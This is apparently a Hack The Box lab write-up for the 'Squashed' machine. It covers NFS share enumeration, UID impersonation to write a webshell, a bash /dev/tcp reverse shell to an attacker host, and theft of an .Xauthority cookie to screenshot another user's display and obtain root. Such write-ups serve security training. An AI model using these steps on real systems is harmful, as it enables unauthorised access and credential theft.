

# Squashed

**Difficulty: **<mark style="color:green;">**EASY**</mark>

## Recon

### Nmap

```java
# Nmap 7.92 scan initiated Sun Dec  4 12:53:55 2022 as: nmap -p22,80,111,2049,8000,46395,52769,56161,58987 -sCV -oN targeted 10.10.11.191
Nmap scan report for 10.10.11.191
Host is up (0.079s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      46137/udp   mountd
|   100005  1,2,3      56161/tcp   mountd
|   100005  1,2,3      57757/tcp6  mountd
|   100005  1,2,3      60560/udp6  mountd
|   100021  1,3,4      36327/tcp6  nlockmgr
|   100021  1,3,4      38370/udp   nlockmgr
|   100021  1,3,4      38479/udp6  nlockmgr
|   100021  1,3,4      46395/tcp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
8000/tcp  open  http     SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
46395/tcp open  nlockmgr 1-4 (RPC #100021)
52769/tcp open  mountd   1-3 (RPC #100005)
56161/tcp open  mountd   1-3 (RPC #100005)
58987/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  4 12:54:06 2022 -- 1 IP address (1 host up) scanned in 11.60 seconds

```

### Web Page

I start with port 80, nothing too much interesting. You can try to use feroxbuster, gobuster, dirsearch whatever tool you like.

<figure><figcaption></figcaption></figure>

## NFS TCP - 2049

Starting to exploit the port 2049 using the following:

```
showmount -e <ip>
```

<figure><figcaption></figcaption></figure>


This will export you what folders are been shared, if you don't about NFS, is like the SMB of Linux. The NFS protocol **has no mechanism for authentication or authorization.** We can try to see what is inside of these folders without credentials.

You can use a program called **nfsshell** to enumerate more quickly.



Downloaded and do a **make** to compile the program. You can play with it but I will do it manually to explain better what am doing **; )**. Now the folder that is juicy here to gain access to the machine is the **/var/www/html folder.** The **/home/ross** is juicy too, but we are not going to used.

<figure><figcaption></figcaption></figure>

Ok, here we have that we don't have permission to get into the remote folder. Why this happend? Well, if we see the permissions in the folder is in the group **www-data** so I will need a user with the same **group(uid=33)** to get in and see what we have**. Follow the next steps.**

### Create a user, assign the group and get a shell as the user

```
useradd test
sudo usermod -u 2017 test
su test -c bash
```

<figure><figcaption></figcaption></figure>

## Exploitation

So, we get into **/var/www/html** folder remotely. Let's try to **make a file with malicious code** and see if we can get a shell.

<figure><figcaption></figcaption></figure>

Let's see if we see it on the web.

<figure><figcaption></figcaption></figure>

Great! Now we upload a **webshell** to get access. Listen with **netcat** to get the shell.

<figure><figcaption></figcaption></figure>

Now get the reverse shell using the following command:

```
bash -c 'bash -i >%26 /dev/tcp/<attacker-ip>/<port> 0>%261'
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We have gained access as user **alex** in the system.

## Privesc

Remember that we have the **/home/ross** folder too. Well, let's try to enumerate what's inside. I will use **nfsshell** to vary.

<figure><figcaption></figcaption></figure>

Here i get an interesting file called **.Xauthority.**

#### What is .Xauthority?

The **.Xauthority** file can be found in each user's home directory. It is **used to store credentials in cookies used by xauth for authentication of XServer**. When an XServer instance (Xorg) is started, the cookie is used to authenticate connections to that specific display.

Knowing that you can **research information** about it in **hacktrickz**:



To exploit it I do a check with the command **"w"** to see what **active sessions** I get. The user **ross** haves an active session and we have the **.Xauthority** token to do things with his display. So upload the .**Xauthority** file to the machine and pass the file with a **PATH** variable to **xdpyinfo**.

```
XAUTHORITY=/tmp/.Xauthority xdpyinfo -display :0
```

<figure><figcaption></figcaption></figure>

We can do the same using **xwininfo**:

<figure><figcaption></figcaption></figure>

Now we do the following command to take a **screenshot** from the **ross** display.&#x20;

```
xwd -root -screen -silent -display :0 > screenshot.xwd
```

<figure><figcaption></figcaption></figure>

Now open a **Python Server** on the machine and **export the screenshot.** Use **convert** command to convert the image from **xwd** and **png**.

<figure><figcaption></figcaption></figure>

<figure><figcaption><p>Screenshot from user ross</p></figcaption></figure>

Use this credential to authenticate with ssh and get root access.

<figure><figcaption></figcaption></figure>

**Rooted !! : }**
